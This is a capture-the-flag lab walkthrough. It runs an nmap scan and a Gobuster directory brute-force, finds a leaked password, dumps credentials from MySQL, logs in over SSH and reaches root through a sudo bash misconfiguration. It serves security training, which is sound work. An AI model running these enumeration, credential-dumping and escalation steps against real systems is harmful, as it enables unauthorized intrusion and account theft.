

### Session : Attacking Common Services II and Basic Linux Privilege Escalation


We ran an `nmap` scan as usual to check the open ports in this machine before attacking :

```
┌──(dest1ny㉿kali-linux-2022-2)-[~]
└─$ nmap -sC -sV 45.79.77.201  
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-06 23:26 +0530
Nmap scan report for 45-79-77-201.ip.linodeusercontent.com (45.79.77.201)
Host is up (0.26s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 61:86:b2:7a:2d:e4:25:a0:e6:33:3a:d3:42:f9:97:81 (RSA)
|   256 2a:dd:f9:7f:f8:8b:80:ee:23:39:79:a0:cf:e8:fe:6f (ECDSA)
|_  256 44:56:9d:0c:9e:1b:f6:fb:0f:09:ad:ce:3f:e5:0a:90 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Landing Page - Start Bootstrap Theme
3306/tcp open  mysql   MySQL 8.0.35-0ubuntu0.20.04.1
| ssl-cert: Subject: commonName=MySQL_Server_8.0.35_Auto_Generated_Server_Certificate
| Not valid before: 2024-01-06T17:54:24
|_Not valid after:  2034-01-03T17:54:24
|_ssl-date: TLS randomness does not represent time
| mysql-info: 
|   Protocol: 10
|   Version: 8.0.35-0ubuntu0.20.04.1
|   Thread ID: 19
|   Capabilities flags: 65535
|   Some Capabilities: InteractiveClient, SupportsLoadDataLocal, p done: 1 IP address (1 host up) scanned in 194.42 seconds
```

We found that :
- Port 80 runs `Apache httpd 2.4.41` Webserver
- Port 3306 runs `MySQL 8.0.35-0ubuntu0.20.04.1` 


To enumerate Port 80, we used a web browser and visited the ip address of the machine and was able to see a website that has been taken down :


We then bruteforced for directories using `Gobuster` tool to find any hidden directories that can be useful and was able to find a directory named `/news` :

```
┌──(dest1ny㉿kali-linux-2022-2)-[~]
└─$ gobuster dir -u http://45.79.77.201/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://45.79.77.201/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/news                 (Status: 301) [Size: 311] [--> http://45.79.77.201/news/]
```

We then visited that directory `/news` and was able to see a `.txt` file :


We opened that text file and was able to see a message : 

```
Dear hareen, Due to a recent cyberattack to our company, our company database got leaked. I was able to see that your password was gymislife. Please change it asap to avoid any kids hacking us! - Admin
```

We found some Credentials for the `mysql` service to login - `hareen:gymislife`

We used the below commands to connect to the `MySQL` service on the machine and see the contents of the tables and grab the data available :
```
mysql -h 45.79.77.201 -u hareen -p
show databases;
use users;
select * from credentials;
exit;
```


We were able to see 4 credentials we can use to login to the machine :
```mysql
select * from credentials;

+---------+----------------+
| user    | password       |
+---------+----------------+
| chami   | ilovepuppies   |
| destiny | capybaraislife |
| hareen  | gymislife      |
| vinuk   | switchisbetter |
+---------+----------------+
```

We tried all the credentials and was successful with the login `chami:ilovepuppies` to login to the machine :
```
ssh chami@{Machine_IP}
```

We were able to see that we are the user `chami` and we were in the `/home/chami` directory by using the `whoami` and `pwd` commands. And finally we were able to capture the `user` flag.


We had a question saying to find a file named `backup.txt` in our questions. So we used the `find` command with the `-name` tag to search for the file and was able to see that it inside a hidden directory and we used the `cat` command to view the contents of the file.

Note : In linux systems, Hidden files has a `.` in front of the file name. 

```
chami@localhost:~$ find -name backup.txt
./.backup/backup.txt
chami@localhost:~$ cat ./.backup/backup.txt
LNBTI{G00d_j0b_f1nd1ng_m3}
```

Optional :
We just checked what we have inside the hidden `.backup` directory using the `ls -la` command. We were able to see lots of random text files inside the directory. We were able to find our `backup.txt` file fast because we used the `find` command.


### Privilege Escalation

We used the `sudo -l` command to see what the user `chami` can run as `root`. 

Note : We use the `sudo` command to do the actions of the root. It's like forcing/commanding to do something by a king.

We were able to see that `/bin/bash` can be run as sudo for the user `chami` :


We went to the https://gtfobins.github.io/gtfobins/bash/#shell and was able to see a exploit string that we can use to escalate our privileges to root :

![[Screenshot 2024-01-06 at 11.42.13 PM.png]]

We used the command and was able to access the `root` account and go to the `/root` directory and grab the `root` flag.


---

To Complete this box :
- You need the basic understanding of SQL commands.
- An idea about Linux Privilege Escalation.
- Ability to use Gobuster.

Notes :
- GTFOBins is a curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems. It is widely used by Pentesters/ Security Professsionals for Linux Privilege Escalation purposes.
- Gobuster is used to Bruteforce/Fuzz for any hidden directories, parameters,subdomains and so on.
